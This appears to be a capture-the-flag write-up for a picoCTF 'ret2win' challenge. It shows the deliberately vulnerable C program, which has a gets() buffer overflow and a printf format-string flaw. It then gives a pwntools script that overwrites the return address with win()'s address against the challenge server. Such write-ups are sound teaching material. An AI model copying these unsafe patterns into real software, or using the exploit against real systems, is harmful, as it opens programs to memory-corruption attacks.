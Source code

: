 # Ret2Win example

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
## Exploit
```python
from pwn import *

host = 'saturn.picoctf.net'
port = 56983

p = remote(host, port)

win_addr = p32(0x080491f6)

payload = b'A' * 44 + win_addr

p.sendline(payload)
response = p.recvall(timeout=5)
print(f"{response.decode('utf-8')}")
```

## Steps

* Analyze the code and obtain [vulnerable functions](rsc/vuln_functions/README.md)
* [Fuzzing](rsc/fuzzing/README.md)
* Generate [deBruijin sequence](rsc/deBruijin/README.md) to inject into the vulnerable section of the binary and check the [offset](rsc/offset/README.md)
* Obtain the pattern offset(44)
* Obtain *win()* function(0x080491f6)
* Exploiting!
